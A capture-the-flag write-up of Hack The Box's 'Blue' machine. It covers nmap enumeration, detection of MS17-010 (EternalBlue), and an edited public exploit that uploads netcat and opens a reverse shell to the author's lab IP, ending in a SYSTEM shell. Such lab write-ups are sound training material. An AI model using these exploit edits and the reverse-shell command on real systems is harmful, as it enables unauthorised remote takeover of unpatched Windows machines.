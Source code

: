```yaml
---
layout: post
title: Hack the Box - Blue
date: 2020-03-13 16:04:22 +0100
description: Blue, while possibly the most simple machine on Hack The Box, demonstrates the severity of the EternalBlue exploit, which has been used in multiple large-scale ransomware and crypto-mining attacks since it was leaked publicly.
img: blue.png
fig-caption: Blue
tags: [Easy, Windows, Retired, CVE]
---
```

## Overview
Blue, while possibly the most simple machine on Hack The Box, demonstrates the severity of the EternalBlue exploit, which has been used in multiple large-scale ransomware and crypto-mining attacks since it was leaked publicly.
## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~]
└─$ sudo nmap -p- -T4 -sV 10.129.112.220
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-13 18:53 GMT
Nmap scan report for 10.129.112.220
Host is up (0.094s latency).
Not shown: 65526 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
```
From this we can see that the ports of most interest are 135,139,445. Before attempting to scan shares that might be accessible anonymously a quick vulnerability scan shows that the server is vulnerable to MS17-010, otherwise known as EternalBlue. With the box being named Blue it is safe to assume this is a sensible attack vector.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~]
└─$ sudo nmap -p139,445 --script vuln 10.129.112.225                                                                                                                                                                                   130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-13 19:36 GMT
Nmap scan report for 10.129.112.225
Host is up (0.016s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
```
Having identified a route forward lets move on to the exploitation phase.
## Foothold
Search on exploitdb for an exploit for this vulnerability we find three to choose from.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~]
└─$ searchsploit eternalblue
----------------------------------------------------------------- --------------------------------
 Exploit Title                                                   |  Path
----------------------------------------------------------------- --------------------------------
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Ex   | windows/remote/42031.py
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue'  | windows/remote/42315.py
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote | windows_x86-64/remote/42030.py
----------------------------------------------------------------- --------------------------------
```
I chose to go with 42315, however it was written in Python 2.7 so to run this on my Kali instance with the least trouble I chose to use a docker container to run it inside.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~]
└─$ sudo docker run -it -v "$(pwd)"/hackthebox/blue:/blue --entrypoint /bin/bash python:2.7.18-stretch
root@79a4e2b0be9a:/# pip install impacket
```
The exploit needs a couple of edits in order to produce a shell. First of all the username needs to be provided which in this case would be "anonymous". Secondly we need to edit the lines in the function "smb_pwn" to execute a reverse shell.
```python
#       print('creating file c:\\pwned.txt on the target')
#       tid2 = smbConn.connectTree('C$')
#       fid2 = smbConn.createFile(tid2, '/pwned.txt')
#       smbConn.closeFile(tid2, fid2)
#       smbConn.disconnectTree(tid2)

        smb_send_file(smbConn, 'nc.exe', 'C', '/nc.exe')
        service_exec(conn, r'cmd /c c:\nc.exe -nv 10.10.14.27 2121 -e cmd.exe')
```
After running this exploit using the following command our netcat listener should receive a shell if it is listening on the same port
```
root@79a4e2b0be9a:/blue# python blue.py 10.129.112.225
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: samr
Target is 64 bit
Got frag size: 0x10
...
Creating service ANJU.....
Starting service ANJU.....
```
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/blue]
└─$ nc -nlvp 2121
listening on [any] 2121 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.112.225] 49159
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\Administrator\Desktop>whoami
whoami
nt authority\system
```
## Privilege Escalation
As we attained root from this exploit and have access to the root flag, there is no need for privilege escalation